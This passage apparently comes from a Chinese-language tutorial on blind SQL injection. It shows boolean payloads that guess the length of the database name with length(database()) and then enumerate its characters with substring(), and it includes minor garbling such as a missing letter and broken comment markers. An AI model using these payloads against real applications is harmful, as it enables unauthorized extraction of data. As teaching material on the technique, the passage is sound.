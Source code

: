 ![SQL Injection Blind user id exists from the database](img/dffe2e5b61101112cb4355215f136cf3.png)

下一步是学习数据库的名称，首先确定名称的长度，然后按照正确的顺序枚举字符，直到找到正确的字符串。

我们使用以下有效负载来确定名称的长度:

`1’ and length(database())=1;-- 1’ and length(database())=2;- - 1’ and length(database())=3;- - 1’ and length(database())=4;- -`

在我们的例子中，我们在前三次尝试中收到了错误，在第四次尝试中达到了正确的值。这意味着数据库的名称有四个字符长。

![SQL Injection user id 4 exists in the database message](img/7fa4ead5dd07cb448d4a3ac0041d0988.png)

为了枚举数据库名称中的字符，我们使用这些有效负载:

`1' and substring(database(),1,1)='a';- - 1' and substring(database(),1,1)='b';- - 1' and substring(database(),1,1)='c';- -`

没有一个命令是正确的，因为'是名称的第一个字母。

![SQL Injection user id is missing from the database](img/9bad317ffacf5fa7fb2b82b3f5434e3e.png)
